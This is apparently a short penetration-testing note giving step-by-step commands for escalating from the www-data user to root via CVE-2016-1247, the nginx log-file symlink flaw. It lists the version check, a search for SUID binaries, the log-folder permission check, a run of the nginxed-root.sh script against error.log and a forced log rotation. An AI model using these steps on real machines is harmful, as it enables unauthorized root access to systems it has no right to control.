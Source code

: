 # Binary Symlinks

## EXAMPLE

# Author of the exploit: https://legalhackers.com/

# REQUIREMENTS

### Having the correct permissions of your user.

#### 1) As www-data or similar user, if you see that the machine is vulnerable to CVE-2016-1247 nginxed-root.sh, we do:

#### 2) 

    dpkg -l | grep nginx (Anyhing newer than 1.6.2 is patched)

#### 3) SUID bit on sudo required for the vulnerability to work

    find / -type f -perm -u=s -lsa 2>/dev/null 

#### 4) If your user has enough permissions on the folder, you can replace the log files with a malicious script via symlink

    ls -la /var/log/nginx 

#### 5) 

    ./nginxed-root.sh /var/log/nginx/error.log

#### 6) Create another SSH session (Unless there is a cronjob that restarts the nginx server)

#### 7) 

    invoke-rc.d nginx rotate >/dev/null 2>&1
